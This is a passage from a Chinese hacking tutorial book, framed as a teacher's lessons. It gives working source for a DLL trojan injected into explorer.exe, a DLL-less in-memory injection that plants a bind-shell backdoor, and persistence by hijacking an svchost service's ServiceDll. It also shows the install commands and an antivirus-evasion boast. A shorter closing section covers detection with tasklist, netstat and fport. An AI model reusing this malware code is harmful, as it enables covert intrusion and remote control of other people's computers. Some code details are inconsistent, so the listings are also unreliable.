    if (pfnStartAddr == NULL)
    {
        printf("GetProcAddress error!\n");
        return FALSE;
    }

    // OK，万事俱备，我们通过建立远程线程时的地址pfnStartAddr（实际上就是LoadLibraryA的入口地址），
    // 和传递的参数pszLibFileRemote（实际上是我们复制过去的木马DLL的全路径文件名）在远程进程内启动我们的木马DLL：

    // 启动远程线程LoadLibraryA，通过远程线程调用用户的DLL文件
    HANDLE hRemoteThread;
    if ((hRemoteThread = CreateRemoteThread(hRemoteProcess, NULL, 0,
            pfnStartAddr, pszLibFileRemote, 0, NULL)) == NULL)
    {
        printf("CreateRemoteThread error!\n");
        return FALSE;
    }
    return TRUE;
}

unsigned long getprocid(char *pn)
{
    BOOL b;
    HANDLE hnd;
    PROCESSENTRY32 pe;
    hnd = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    pe.dwSize = sizeof(pe);
    b = Process32First(hnd, &pe);
    while (b)
    {
        if (strcmp(pn, pe.szExeFile) == 0) return pe.th32ProcessID;
        b = Process32Next(hnd, &pe);
    }
    return 0;
}

int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR     lpCmdLine,
                     int       nCmdShow)
{
    DWORD procid;
    procid = getprocid("explorer.exe"); /* 得到进程PID */
    if (procid == 0)
        return 1;

    if (InjectDll("c:\\dllTest.dll", procid))
    {
        printf("Inject OK!\n");
    }
    else
    {
        printf("Inject Fail!\n");
    }
    return 0;
}
```

> 老师说道：“我们再次测试，顺利成功！一个有实力的 DLL 木马和注入程序就打造完成了！而且还不会被查杀哦！”

### 5.6.4 直接注入 exe 程序

虽然 DLL 木马和注入程序都完美地完成了，但我们再返回去看看整个注入过程，其实就是在远程 explorer.exe 进程中执行 `LoadLibrary("dllTest.dll")` 这句代码，从而使远程进程接着去执行 DLL 主函数中的功能。

说白了，注入的实质就是让远程进程执行 `LoadLibrary("dllTest.dll")`！

那举一反三地想想，既然我们可以让远程进程执行一句代码，那也可以尝试让远程进程执行多句代码，甚至直接执行我们所有的后门代码啊，这样的话连 DLL 都不必要使用了！

说做就做，我们就在远程进程中写入我们的后门函数和参数，然后直接执行！注意的是 `LoadLibraryA` 和 `GetProcAddress` 的地址在各个进程中是一样的，但其他的函数地址可能不同（dll 加载位置不同），所以注入的木马程序，需要先在远程进程中查找各个函数的地址，然后再调用这些地址执行。

首先定义一个结构来存放需要查找的函数。

```c
struct MPARA
{
    DWORD M_LoadLibrary;
    DWORD M_GetProcAddress;

    char libname[32];
    char f_WSAStartup[16];
    char f_socket[16];
    char f_bind[16];
    char f_listen[16];
    char f_accept[16];
    char f_send[16];
    char f_recv[16];
    char f_closesocket[16];
    struct sockaddr_in addr;
    char s_help[128];
};
```

然后注入的程序如下。首先定义 `LoadLibrary` 和 `GetProcAddress`，并通过传入的地址进行地址赋值；然后通过这两个函数查找所需要的其他网络函数地址；最后就是真正完成木马功能的代码了。

```c
DWORD __stdcall FRP(MPARA *p)
{
    // 定义 LoadLibrary 和 GetProcAddress
    HMODULE (__stdcall *M_LoadLibrary)(char *c);
    FARPROC (__stdcall *M_GetProcAddress)(HMODULE hmd, char *c);
    // 得到传入的 LoadLibrary 和 GetProcAddress 的地址
    M_LoadLibrary = (HMODULE (__stdcall *)(char *c))p->M_LoadLibrary;
    M_GetProcAddress = (FARPROC (__stdcall *)(HMODULE hmd, char *c))p->M_GetProcAddress;

    // 定义需使用的网络函数
    int (__stdcall *M_WSAStartup)(DWORD d1, LPWSADATA d2);
    SOCKET (__stdcall *M_socket)(int af, int type, int protocol);
    int (__stdcall *M_bind)(SOCKET s, const sockaddr *name, int namelen);
    int (__stdcall *M_listen)(SOCKET s, int backlog);
```

# 黑客编程入门

```c
SOCKET (_stdcall *M_accept)(SOCKET s, sockaddr *addr, int *addrlen);
int (_stdcall *M_send)(SOCKET s, const char *buf, int len, int flags);
int (_stdcall *M_recv)(SOCKET s, char *buf, int len, int flags);
int (_stdcall *M_closesocket)(SOCKET s);
HMODULE hmd;
hmd=(*M_LoadLibrary)(p->libname);

// 查找要用网络函数的地址
M_WSAStartup=(int (_stdcall *)(DWORD d1, LPWSADATA d2))(*M_GetProcAddress)(hmd, p->f_WSAStartup);
M_socket=(SOCKET (_stdcall *)(int af, int type, int protocol))(*M_GetProcAddress)(hmd, p->f_socket);
M_bind=(int (_stdcall *)(SOCKET s, const sockaddr *name, int namelen))(*M_GetProcAddress)(hmd, p->f_bind);
M_listen=(int (_stdcall *)(SOCKET s, int backlog))(*M_GetProcAddress)(hmd, p->f_listen);
M_accept=(SOCKET (_stdcall *)(SOCKET s, sockaddr *addr, int *addrlen))(*M_GetProcAddress)(hmd, p->f_accept);
M_send=(int (_stdcall *)(SOCKET s, const char *buf, int len, int flags))(*M_GetProcAddress)(hmd, p->f_send);
M_recv=(int (_stdcall *)(SOCKET s, char *buf, int len, int flags))(*M_GetProcAddress)(hmd, p->f_recv);
M_closesocket=(int (_stdcall *)(SOCKET s))(*M_GetProcAddress)(hmd, p->f_closesocket);

// 真正功能的木马代码
WSADATA wsa;
SOCKET s, c;
int i, j;
char buf[1024];
char cmd[256];

(*M_WSAStartup)(0x0101, &wsa);
s=(*M_socket)(AF_INET, SOCK_STREAM, 0);
i=(*M_bind)(s, (struct sockaddr *)&p->addr, sizeof(p->addr));
if(i==-1) return 0;
(*M_listen)(s, 5);
char ch[32]={'\r','\n','[','a',']','>','b','a','d',' ','c','m','d'}; /* 字符串不可直接使用 */
while(1)
{
    i=sizeof(p->addr);
    c=(*M_accept)(s, (struct sockaddr *)&p->addr, &i);
    i=(*M_send)(c, ch, 6, 0);
    i=0;
    while(1)
    {
        i=(*M_recv)(c, buf, 1024, 0);
        if(buf[0]=='\r')
        {
            buf[0]='\r';
            buf[1]='\n';
            i=(*M_send)(c, buf, 2, 0);
            if(cmd[0]=='e' && cmd[1]=='x' && cmd[2]=='i' &&
               cmd[3]=='t')
            {
                (*M_closesocket)(c);
                (*M_closesocket)(s);
                return 0;
            }
            else if(cmd[0]=='b' && cmd[1]=='y' && cmd[2]=='e')
            {
                i=(*M_send)(c, cmd, 3, 0);
                (*M_closesocket)(c);
                break;
            }
            else
            {
                if(cmd[0]=='?' || (cmd[0]=='h' && cmd[1]=='e' &&
                   cmd[2]=='l' && cmd[3]=='p'))
                {
                    i=(*M_send)(c, &p->s_help[1], p->s_help[0], 0);
                }
                /*
                else if(cmd[0]=='a' && cmd[1]=='b' &&
                        cmd[2]=='c')
                {
                }
                */
                else
                {
                    i=(*M_send)(c, &ch[6], 7, 0);
                }
            }
            i=(*M_send)(c, ch, 6, 0);
            for(i; i>0; i--) cmd[i]=0;
        }
        else if(buf[0]>=32 && buf[0]<128)
        {
            i=(*M_send)(c, buf, 1, 0);
            cmd[i]=buf[0];
            j++;
        }
        else if(buf[0]=='\b' && i>0)
        {
            buf[0]='\b';
            buf[1]=' ';
            buf[2]='\b';
            i=(*M_send)(c, buf, 3, 0);
            i--;
            cmd[i]=0;
        }
        if(i==-1)
        {
            (*M_closesocket)(c);
            break;
        }
    }
}
return 0;
}
```

而主函数要做的事情，就是提升权限，获取 PID 值，然后初始化注入参数——两个函数地址和网络函数名，写入到远程进程中，最后在远程进程中创建线程，执行木马函数。具体的代码如下：

```c
void main()
{
    HANDLE hnd;
    DWORD dwtid;
    struct MPARA mp;
    unsigned long ThreadSize=4028*2;
    SetAut(); /* 提升进程权限 */
    DWORD procid;
    //procid=getprocid("Explorer.EXE");/* 得到进程PID */
    procid=getprocid("notepad.exe");/* 得到进程PID */
    if(procid==0) return;
    hnd=OpenProcess(PROCESS_ALL_ACCESS, FALSE, procid);

    /* 写入线程体 */
    void *lpEx=VirtualAllocEx(hnd, NULL, ThreadSize, MEM_COMMIT|MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hnd, lpEx, &FRP, ThreadSize, NULL);

    /* 初始化线程参数 */
    mp.M_LoadLibrary=(DWORD)GetProcAddress(GetModuleHandle("kernel32.dll"),
        "LoadLibraryA");
    mp.M_GetProcAddress=(DWORD)GetProcAddress(GetModuleHandle("kernel32.dll"),
        "GetProcAddress");
    strcpy(mp.librarie, "wsock32.dll");
    strcpy(mp.f_WSAStartup, "WSAStartup");
    strcpy(mp.f_socket, "socket");
    strcpy(mp.f_bind, "bind");
    strcpy(mp.f_listen, "listen");
    strcpy(mp.f_accept, "accept");
    strcpy(mp.f_send, "send");
    strcpy(mp.f_recv, "recv");
    strcpy(mp.f_closesocket, "closesocket");
    strcpy(mp.s_help, " Commands:\r\n bye：断开连接\r\n exit：结束线程\r\n help：帮助");
    mp.s_help[0]=strlen(mp.s_help);

    WSADATA wsa;
    char name[128];
    hostent *host;
    WSAStartup(0x0101, &wsa);
    gethostname(name, 128);
    host=gethostbyname(name);
    strcpy(name, inet_ntoa(*(struct in_addr*)host->h_addr_list[0]));
    printf("Bind to %s", name);
    mp.addr.sin_addr.S_un.S_addr=inet_addr(name);
    mp.addr.sin_family=AF_INET;
    mp.addr.sin_port=htons(7000);

    /* 写入线程参数 */
    void *lpPa=VirtualAllocEx(hnd, NULL, sizeof(mp), MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(hnd, lpPa, &mp, sizeof(mp), NULL);

    /* 建立线程 */
    CreateRemoteThread(hnd, 0, 0, (DWORD (__stdcall *)(void *))lpEx, lpPa, 0, &dwtid);
}
```

具体工程请参看“直接插入本身”目录。我们编译生成 injectdll.exe 后，直接运行就可以完成注入！而且无 DLL，无进程，唯一需要的就是将这个 injectdll.exe 启动一下，就完成注入和木马功能的执行。

## 5.7 替换系统服务启动DLL木马

前面使用的方法，满足了绝大部分需求，隐藏了运行时的进程，甚至可以没有 DLL 文件本身。但是，需要执行一次 exe 来实现注入，而机器在启动时执行一个 exe 程序，很大可能是放在注册表启动项中完成的，那这个注册表启动项的改动，将会是 DLL 木马很大的软肋。

有没有更隐蔽，不用自己的 exe，不用注册表启动项，直接启动 DLL 木马的方法呢？

当然了，完全不用 exe 是不可能的（如果没有任何触发就自动执行一个程序，那才叫奇怪了呢），这里说的不用 exe 是不使用自己的 exe，而是利用系统自己的 svchost.exe 来加载我们的 DLL 木马。

先说一下 svchost.exe 的原理：Windows 系统服务分为独立进程和共享进程两种。在 Windows 2000 中微软把很多服务做成共享方式，由 svchost.exe 启动。Windows 2000 一般有 2 个 svchost 进程，一个是 RPCSS（Remote Procedure Call）服务进程，另外一个则是由很多服务共享的一个 svchost.exe，而在 Windows XP 中，则一般有 4 个以上的 svchost.exe 服务进程，Windows 2003 Server 中则更多。

Svchost 本身只是作为服务宿主，并不实现任何服务功能。需要 Svchost 启动的服务以动态链接库形式（DLL）实现。在安装这些服务时，把服务的可执行程序指向 svchost，启动这些服务时由 svchost 调用相应服务的动态链接库（DLL）来启动服务。

那么 svchost 如何知道某一服务是由哪个动态链接库（DLL）负责呢？这不是由服务的参数提供的，而是服务在注册表中的参数设置的。注册表中，各个服务下边有一个 Parameters 子键，其中的 ServiceDll 表明该服务由哪个动态链接库（DLL）负责。并且所有这些服务 DLL 都必须要导出一个 ServiceMain() 函数，svchost 就可以用 ServiceMain() 函数为接口（如同 DLL 的 DllMain 函数结果）来处理服务任务了。

举个具体的例子来说，rpcss（Remote Procedure Call）服务在注册表中的位置是 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs，它的参数子键 Parameters 里有这样一项：`"ServiceDll"=REG_EXPAND_SZ:"%SystemRoot%\system32\rpcss.dll"`，大家可以在注册表中找一下，如图 5.17。

该参数指明了其使用 DLL 的位置。当启动 rpcss 服务时，svchost 就会调用 `%SystemRoot%\system32\` 下的 rpcss.dll，执行其 **ServiceMain()** 函数执行具体服务。

虽然服务是使用共享进程方式由 svchost 启动的，但微软把这些服务分为几组，同组服务共享一个 svchost 进程，不同组服务使用不同的 svchost 进程，所以系统中会有多个 svchost 进程。而各个服务组的区别是由服务的可执行程序后边的参数决定的。

例如 rpcss 在注册表中 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs` 有这样一项：`"ImagePath"=REG_EXPAND_SZ:"%SystemRoot%\system32\svchost -k rpcss"`，因此 rpcss 就属于 rpcss 组，我们通过服务管理控制台也可以看到，如图 5.18。

svchost 的所有组和组内的所有服务都在注册表的如下位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost`，例如 Windows 2000 共有 4 组 rpcss、netsvcs、wugroup、BITSgroup，其中最多的就是 `netsvcs=REG_MULTI_SZ:EventSystem.Ias.Iprip.Irmon.Netman.Nwsapagent.Rasauto.Rasman.Remoteaccess.SENS.Sharedaccess.Tapisrv.Ntmssvc.wzcsvc..`，如图 5.19。

在启动一个 svchost.exe 负责的服务时，服务管理器如果遇到可执行程序内容 ImagePath 已经存在于服务管理器的映像库中，就不再启动第 2 个进程 svchost，而是直接启动服务。这样就实现了多个服务共享一个 svchost 进程。

如果我们安装一个服务，用 svchost 来启动 DLL，但内容却是我们木马的代码；这样不增加新的进程，只是 svchost 的一个 DLL，而且一般进行审计时都不会去 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` 检查服务组是否变化，就算去检查，也不一定能发现异常，因此如果添加一个这样的 DLL 后门，伪装得好，是比较隐藏的。

要通过 svchost 调用来启动的服务，就一定要在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` 下有该服务名，这可以通过如下方式来实现：

- 1. 添加一个新的服务组，在组里添加服务名
- 2. 在现有组里添加服务名
- 3. 直接使用现有服务组里的一个服务名，但本机没有安装的服务
- 4. 修改现有服务组里的现有服务，把它的 ServiceDll 指向自己

其中前两种可以被正常服务使用，如使用第 1 种方式，启动其服务要创建新的 svchost 进程；第 2 种方式如果该组服务已经运行，安装后不能立刻启动服务，因为 svchost 启动后已经把该组信息保存在内存里，并调用 API `StartServiceCtrlDispatcher()` 为该组所有服务注册了调度处理函数，新增的服务不能再注册调度处理函数，需要重启计算机或者该组的 svchost 进程。

而后两种可能被后门使用，尤其是最后一种，没有添加服务，只是改了注册表里一项设置，从服务管理控制台又看不出来，如果作为后门还是很隐蔽的。比如 EventSystem 服务，缺省是指向 es.dll，如果把 ServiceDll 改为 EventSystem.dll 就很难发现。

明白了原理，编写想要的 DLL 程序就比较简单了。只要实现一个 `ServiceMain()` 函数，能让 svchost.exe 调用，将其注册为服务控制程序就可以了，程序如下。

```c
void __stdcall ServiceMain(int argc, wchar_t* argv[])
{
    // DebugBreak();
    char svcname[256];
    strncpy(svcname, (char*)argv[0], sizeof svcname); // it should be unicode,
    // but if it's ansi, we do it well
    wcstombs(svcname, argv[0], sizeof svcname);
    OutputString("SvcHostDLL: ServiceMain(%d, %s) called", argc, svcname);
    hSrv = RegisterServiceCtrlHandler(svcname, (LPHANDLER_FUNCTION)ServiceHandler);
    if(hSrv == NULL)
    {
        OutputString("SvcHostDLL: RegisterServiceCtrlHandler %S failed", argv[0]);
        return;
    }
    FreeConsole();
    TellSCM(SERVICE_START_PENDING, 0, 1);
    TellSCM(SERVICE_RUNNING, 0, 0);
    // call Real Service function now
    if(argc > 1)
        strncpy(svcname, (char*)argv[1], sizeof svcname),
        wcstombs(svcname, argv[1], sizeof svcname);
    RealService(argc > 1 ? svcname : MY_EXECUTE_NAME, argc > 2 ? 1 : 0);
    do {
        Sleep(10); // not quit until receive stop command, otherwise the service will stop
    } while(dwCurrState != SERVICE_STOP_PENDING && dwCurrState != SERVICE_STOPPED);
    OutputString("SvcHostDLL: ServiceMain done");
    return;
}
```

而改写注册表，将某个服务的 ServiceDll 改成自己 DLL 本身，则是一件很容易的事。下面的代码将 name 服务的 DLL 改为自身，这里 name 服务可以任意指定，注意应该是现在服务组里存在的服务名，比如 iprip 等等，否则不会成功的（注册表里都没有）。

# 黑客编程入门

```c
int InstallService(char *name)
{
    // Open a handle to the SC Manager database.
    int rc = 0;
    HKEY hkRoot = HKEY_LOCAL_MACHINE, hkParam = 0;
    SC_HANDLE hscm = NULL, schService = NULL;
    try{
        char buff[500];
        char *svcname = DEFAULT_SERVICE;
        if(name && name[0]) svcname = name;
        // query svchost setting
        char *ptr, *pSvchost = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Svchost";
        rc = RegOpenKeyEx(hkRoot, pSvchost, 0, KEY_QUERY_VALUE, &hkRoot);
        if(ERROR_SUCCESS != rc)
        {
            OutputString("RegOpenKeyEx(%s) KEY_QUERY_VALUE error %d.", pSvchost, rc);
            throw "";
        }
        DWORD type, size = sizeof buff;
        rc = RegQueryValueEx(hkRoot, "netsvcs", 0, &type, (unsigned char*)buff, &size);
        RegCloseKey(hkRoot);
        SetLastError(rc);
        if(ERROR_SUCCESS != rc)
            throw "RegQueryValueEx(Svchost\\netsvcs)";
        for(ptr = buff; *ptr; ptr = strchr(ptr, 0)+1)
            if(strcmp(ptr, svcname) == 0) break;
        if(*ptr == 0)
        {
            OutputString("you specify service name not in Svchost\\netsvcs, must be one of following:");
            for(ptr = buff; *ptr; ptr = strchr(ptr, 0)+1)
                OutputString(" - %s", ptr);
            throw "";
        }
        // install service
        hscm = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
        if (hscm == NULL)
            throw "OpenSCManager()";
        char *bin = "%SystemRoot%\\System32\\svchost.exe -k netsvcs";
        schService = CreateService(
            hscm,                        // SCManager database
            svcname,                     // name of service
            NULL,                        // service name to display
            SERVICE_ALL_ACCESS,          // desired access
            SERVICE_WIN32_SHARE_PROCESS, // service type
            SERVICE_AUTO_START,          // start type
            SERVICE_ERROR_NORMAL,        // error control type
            bin,                         // service's binary
            NULL,                        // no load ordering group
            NULL,                        // no tag identifier
            NULL,                        // no dependencies
            NULL,                        // LocalSystem account
            NULL);                       // no password
        if (schService == NULL)
        {
            OutputString("CreateService(%s) error %d", svcname, rc = GetLastError());
            throw "";
        }
        OutputString("CreateService(%s) SUCCESS. Config it", svcname);
        CloseServiceHandle(schService);
        CloseServiceHandle(hscm);

        // config service
        hkRoot = HKEY_LOCAL_MACHINE;
        strncpy(buff, "SYSTEM\\CurrentControlSet\\Services\\", sizeof buff);
        strncat(buff, svcname, 100);
        rc = RegOpenKeyEx(hkRoot, buff, 0, KEY_ALL_ACCESS, &hkRoot);
        if(ERROR_SUCCESS != rc)
        {
            OutputString("RegOpenKeyEx(%s) KEY_SET_VALUE error %d", svcname, rc);
            throw "";
        }
        rc = RegCreateKey(hkRoot, "Parameters", &hkParam);
        SetLastError(rc);
        if(ERROR_SUCCESS != rc)
            throw "RegCreateKey(Parameters)";
        if(!GetModuleFileName(HMODULE(hDll), buff, sizeof buff))
            throw "GetModuleFileName() get dll path";
        rc = RegSetValueEx(hkParam, "ServiceDll", 0, REG_EXPAND_SZ,
            (unsigned char*)buff, strlen(buff)+1);
        SetLastError(rc);
        if(ERROR_SUCCESS != rc)
            throw "RegSetValueEx(ServiceDll)";
        OutputString("Config service %s ok.", svcname);
    }
    catch(char *str)
    {
        if(str && str[0])
        {
            rc = GetLastError();
            OutputString("%s error %d", str, rc);
        }
    }
    RegCloseKey(hkRoot);
    RegCloseKey(hkParam);
    CloseServiceHandle(schService);
    CloseServiceHandle(hscm);
    return rc;
}
```

具体代码请参考 **SvcHostDLL** 目录，那是 **bingle** 提供的一个测试代码。安装时，先运行 `rundll32 svchostdll.dll,RundllInstall abcd`，可以看到提示信息，只能指明已存在的服务名；然后选一个存在的，比如 **IPRIP** 服务作替换安装，命令如下：`rundll32 svchostdll.dll,RundllInstall IPRIP`；然后启动服务并带上要执行的参数，比如 `sc start iprip "cmd /k whoami" 1`。

这样就会发现执行了 `cmd` 这个命令。但 **bingle** 的程序并不带网络木马的功能，我们加以改进吧！打造真正的木马系统服务 DLL！

要改进也很简单，我们把 `RealService()` 函数改为我们的木马代码，如下。

```c
int RealService(char *command, int bInteract)
{
    WSADATA ws;
    SOCKET listenFD;
    char Buff[1024], cmd[1024];
    int ret;
    unsigned long lBytesRead;
    // 初始化 wsa
    WSAStartup(MAKEWORD(2,2), &ws);
    // 建立 socket
    //listenFD = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
    listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    // 监听本机 830 端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr = ADDR_ANY;

    ret = bind(listenFD, (sockaddr *)&server, sizeof(server));
    ret = listen(listenFD, 2);
    // 如果客户端请求 830 端口，接受连接
    int iAddrSize = sizeof(server);

ag:
    SOCKET clientFD = accept(listenFD, (sockaddr *)&server, &iAddrSize);
    send(clientFD, "Welcome to door by ourselves!\n\r", sizeof("Welcome to door by ourselves!\n\r"), 0);
    send(clientFD, "door>", sizeof("door>"), 0);
    while(1)
    {
        ZeroMemory(cmd, 1024);
        lBytesRead = 0;
        // Input cmd
        while(lBytesRead < 256)
        {
            if(recv(clientFD, Buff, 1, 0) == SOCKET_ERROR)
            {
                closesocket(clientFD);
                goto ag;
            }
            cmd[lBytesRead] = Buff[0];
            if(Buff[0] == 0xa || Buff[0] == 0xd)
            {
                cmd[lBytesRead] = 0;
                break;
            }
            lBytesRead++;
        }

        // 帮助信息
        if(strcmp(cmd, "?") == 0)
        {
            send(clientFD, g_helpmess, sizeof(g_helpmess), 0);
        }

        // 打开光驱
        if(strcmp(cmd, "open") == 0)
        {
            mciSendString("set cdaudio door open", NULL, 0, NULL);
        }

        // 关闭光驱
        if(strcmp(cmd, "close") == 0)
        {
            mciSendString("Set cdaudio door closed wait", NULL, 0, NULL);
        }

        // 交换鼠标左右键
        if(strcmp(cmd, "x") == 0)
        {
            SwapMouseButton(1);
        }

        // 恢复鼠标左右键
        if(strcmp(cmd, "r") == 0)
        {
            SwapMouseButton(0);
        }

        // 得到 cmd "shell"
        if(strcmp(cmd, "shell") == 0)
        {
            cmdshell(clientFD);
            send(clientFD, "Shell OK\n\r", sizeof("Shell OK\n\r"), 0);
        }

        // 退出木马，还可再连接
        if(strcmp(cmd, "quit") == 0)
        {
            closesocket(clientFD);
            goto ag;
        }

        // 木马退出程序
        if(strcmp(cmd, "exit") == 0)
        {
            closesocket(clientFD);
            closesocket(listenFD);
            goto end;
        }
        if (strlen(cmd))
            send(clientFD, "door>", sizeof("door>"), 0);
        Sleep(10);
    }
end:
    return 0;
}


```

具体工程请参看 SvcHostDLLMuma 目录，编译生成 DLL 后，执行 **rundll32 svchostdll.dll,RundllInstall IPRIP**，再启动 IPRIP 服务，哈哈，830 端口打开，telnet 上去，shell 又出来了！

> “老师最后说道：‘几种 DLL 木马都是利用这几种手段实现的，只不过用的服务可能不一样，所以大家要有举一反三的意识，才能更好地进步。’”

# 第六章 菜鸟也来隐藏端口

“我们这门网络课，已经接近了尾声。”老师继续说，“但还有一个很重要很重要的木马功能还没有涉及。”

“哦？什么功能呢？”小菜们问道。

“那就是隐藏端口的功能！”

## 6.1 木马技术攻与防

“隐藏端口很重要，这是和木马本身的性质息息相关的。学而不思则罔，思而不学则殆。编写了这么久的程序后，我们把木马的特点总结一下，好为以后编写更好的程序打好基础。”

“木马之所以称为木马，是因为有一些特殊的性质，这些特殊的性质，给它们带来了神秘的光环，也会给它们留下了一些阿喀琉斯之踵，也就是软肋，从而容易暴露木马自己，被别人发现。我们总结一下这些阿喀琉斯之踵，便于自己发现木马的蛛丝马迹；反过来，我们又可以使用针对性的技术手段加强它们，提高木马的隐藏性。”

### 6.1.1 进程及隐藏

“首先，木马本身只是一个程序，只不过这个程序有些特殊的功能和特殊的要求罢了。任何一个计算机程序，都需要运行起来才能发挥作用；那么自然而然，作为计算机程序的木马，也需要运行起来，才能完成代码里的功能，而这就是木马的软肋之一。”

“普通的 exe 木马运行时，就会开启一个进程。我们可以用 Ctrl+Alt+Del 呼出 Windows 任务管理器，查看当前系统正在运行的进程，如图 6.1。”
图 6.1

“Windows 的进程比较多。在查看木马时，我们主要注意占用 CPU 或内存比较高的进程；其次也注意一些看起来和正常程序类似，但个别字符不同的进程程序，比如 expl0rer.exe，就是把那个字母 o 改成了数字 0。”

“发现可疑进程之后，我们直接用 Windows 任务管理器结束掉该进程，然后搜索出源文件将其删除掉即可。”

“这种直接作为进程运行的木马很容易被发现并清除，在比较老的木马中才会使用这种方法。现在的木马，如果使用开进程直接运行的方式，一般都要加入守护进程的思想。方法就是开启两个进程，一个是木马进程，另一个是守护进程，守护进程随时查询当前运行的进程，如果发现木马进程被关掉，就将其重新启动运行起来。Windows 下，运行中的程序是不能被删除的，从而达到增强木马保护的作用。”

“对于这种守护进程木马，简单的解决方法是写一个批处理程序，在批处理中结束木马进程后马上删除其木马 exe 文件。守护进程还来不及重新启动木马的时候，是可删除的，从而实现清除的目的。”

“而对于 DLL 木马来说，大家都实际编写过，很清楚，它没有自己的进程，任务管理器中也不能发现，那该怎么办呢？”

“在 CMD 下有一个命令 tasklist，这个命令行工具显示应用程序和本地或远程系统上运行的相关任务/进程的列表。输入 tasklist /? 可以看到详细的帮助信息。”

“特别地，tasklist /M 列出进程和它所加载的 DLL 模块。比如现在 QQ 的 PID 是 416，那么我们输入 tasklist /M /FI "PID eq 416"，就可以列出 QQ 进程加载的所有 DLL，如图 6.2。”
图 6.2

“如果输入的是 tasklist /M dll 文件名，它就会列出所有加载这个 DLL 的进程。比如我们输入 tasklist /M Ws2_32.dll，就会列出所有加载 Ws2_32.dll 的进程，如图 6.3。”
图 6.3

“有了这个工具，我们就有一个发现 DLL 注入木马的简单手工办法，步骤如下。”

“我们进入系统的 system32 文件夹，选择显示所有文件，然后按时间倒序排序，如图 6.4。”
图 6.4“如果是DLL木马，一般情况下，创建时间要比系统DLL晚，从而排在前面。我们就把时间较晚而且比较可疑的DLL名字记录下来，然后在cmd下输入tasklist /M DLL文件名，就可以把加载这些DLL的进程输出了。”

“如果是explorer.exe、IEXPLORE等系统进程加载了这些较新又奇怪的DLL，那么就很有可能是DLL木马了。我们就先把explorer.exe、IEXPLORE等被插入的进程结束掉，然后再把DLL删掉，DLL木马就被清除掉了。”

## 小结

小菜们说道：“哦，Windows下还有像tasklist这么好玩的DOS命令吗？”

“有很多，不仅好玩，也很实用！其实Windows下所有的操作，都可以在cmd下用命令行命令完成，大家如果有雅兴，可以找出system32目录下的所有exe命令，一个一个地试试，只要读得懂英文，你一定不会失望的。”老师说道，“而对于木马来说，道高一尺，魔高一丈。对于进程问题，除了更好地隐藏DLL文件外，还可以编程实现从tasklist链表中摘除本进程，从而在Windows任务管理器中不会显示出木马进程。”

“哦，如何用程序实现呢？”

“程序在这里就不列出了，大家参考光盘的hide process吧。大家注意，这段程序中的GetProcessFromPid函数需要返回0x80000000-0xA0000000之间的值才能正常工作。”老师说道，“这是因为虚拟地址向物理地址的转换时，在Ring 3级别实现需要一个物理地址做参照，在0x80000000-0xA0000000之间的虚拟地址很容易转换，直接&0x1FFFF000就可以得到物理地址了。但分页池还有一个是在0xFxxxxxxx附近的，如果程序的EPROCESS结构被放在那儿，就比较麻烦了。”

“另外，木马也可以只在内存中存在注入代码，这样不存在DLL文件，甚至木马干脆使用驱动级的程序来实现隐藏，这样就更隐蔽了。”

### 6.1.2 自启动方式

“我们接着分析木马的阿喀琉斯之踵，木马要能够运行，除了第一次激活外，也必须有办法能在机器重启后再次启动。”

“毫无疑问，木马的第一次运行激活需要特殊的办法，比如利用系统漏洞、利用社会工程、利用钓鱼、利用行政手段等方法种入木马，但这不是我们讨论的重点，我们主要看机器重启后木马的再次启动问题。”

“所有的计算机程序在计算机关机断电后，都会停止运行，作为计算机程序的木马当然也不例外。除了企图利用系统漏洞，等下次开机后再次植入外，一般的木马都使用开机后自动启动的方法，而这恰恰是木马的又一大软肋。”

“木马为了在系统重启时能重新启动，一定要修改系统的某些东西。我们在前面的课程中已经讲了许多木马启动的方法，比如，注册表启动项启动、关联启动、注册为服务启动、特殊DLL利用svchost服务启动等，大家可以再复习一下。”

“知道了那些自启动的方法，反过来检测木马，我们就可以使用一个重要的方法：检查自启动项。我们一一检查系统能实现自启动的地方，如果发现有奇怪的程序会开机自动运行，那么就把它当成木马从启动项中删掉，呼～整个世界安静了。”

“而木马为了躲避检查，可以考虑像病毒一样，在文件中加入自身，实现启动；比如，在记事本程序中嵌入我们的木马代码，并修改记事本程序的入口，运行时首先跳转到我们木马代码中运行，再跳回记事本本身的程序。这样当用户在打开txt文件时，就不知不觉地帮我们运行了木马。”

“这种方法非常难发现，类似的方法也会使用在网络程序中，我们会在后面HOOK API时提到，到那时再讲实现吧。”老师最后说道。

### 6.1.3 通信端口

“木马之所以称为木马，是因为木马可以让控制者远程控制主机。如果木马不能通过网络和控制者联系，‘老死不相往来’，那么木马就失去了存在的意义。”

“为了在网络上通信，计算机程序一定会开启端口，木马也不例外，这就成了木马的第三个阿喀琉斯之踵。用户只要在CMD下输入**netstat -an**命令，系统开启的端口就一目了然了，木马开启的任何端口，都会暴露在用户面前。”

“如果用户还想进一步知道是哪个进程开启的端口，XP系统下的**netstat**有新增的参数，可以打出端口关联进程的PID，执行结果如图6.5。”
图6.5

“知道了PID，我们就可以在任务管理器中找出对应的程序，从而发现木马。但这样还是麻烦，而且在2000系统下的**netstat**还没有“-o”参数，有没有更方便的工具呢？当然有了，我们可以使用著名的Foundstone公司的**fport**工具。在命令行下输入**fport**，就可以清楚地看到是哪个进程开启的哪个端口，以及对应的EXE程序，结果如图6.6。”
图6.6

“哦！好cool啊！”小菜们叫道。

“呵呵，我们也实现个类似的程序吧。大家最好下载安装SDK，并在VC的工具菜单—选项中设置文件路径，将SDK的include和lib目录包含进去，如图6.7。”
图6.7

